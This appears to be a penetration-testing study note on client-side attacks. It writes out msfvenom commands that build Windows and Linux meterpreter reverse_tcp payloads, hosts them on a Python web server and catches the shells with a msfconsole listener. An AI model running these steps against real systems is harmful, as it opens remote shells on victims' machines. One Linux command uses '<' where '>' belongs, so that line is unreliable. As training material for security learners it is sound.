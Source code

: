 ## What are client-side attacks
* An attack vector that involves coercing a client to execute a malicioous payload.
* Typically utilizes social engineering. Eg: Malicious documents or portable executables (PEs).
* Take advantage of human vulnrabilities NOT vulns in services/softwares running on the target.
* As the transfer and storage of a malicious payload is required in this attack --> Thus attacker needs to take care of AV detections on the target.

##MSFVenom
* A command line utility used to generate and encode MSF payloads for various OS and web servers.
* MSFVeom = MSFPayload + MSFEncode

* **PRACTICAL**
* `msfvenom`--> documentation
* `msfvenom  --list payloads` --> List all the payloads that can be generated by msfvenom.
* General structure of payload: [OS]/[Architecture]/[payload_type]/[protocol to connect back to our system]
* Eg: windows/x64/meterpreter/reverse_tcp
* **Staged payload** --> Eg: The one above.
* **Non-staged payload** --> Eg: windows/x64/meterpreter_reverse_tcp
* ***
## Generate a payload

### Windows payloads
* `msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[Attacker's IP] LPORT=[Any free port on attacker's machine] -f [file format of payload] > [location of the payload]/[name of the payload]`
* `msfvenom --list formats`--> List all the possible formats of the payloads

### Linux payloads
* `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP to connect back] LPORT=[any free port to connect back] -f elf < [location of the payload]/[name]` -->
* Where elf (Executable And Linkable Format) is the extension of a binary file.

### Transfer the payload to the target
* `sudo python -m SimpleHTTPServer 80` --> To receive the response from the web server that we are going to hack.
* `msfconsole` --> Setup the listener:
* `use multi/handler`
* `set payload windows/meterpreter/reverse_tcp`
* `set lhost [IP to be connected back]`
* `set lport[any port free on attacker's machine]`
* `run`
* Navigate to the target system and download the directory from the website.
* And execute the payload on the target
* This should give a meterpreter session through the listener that we setup initially.
* **To transfer a payload to a linux system**
* `set payload linux/x86/meterpreter/reverse_tcp`
* `run`

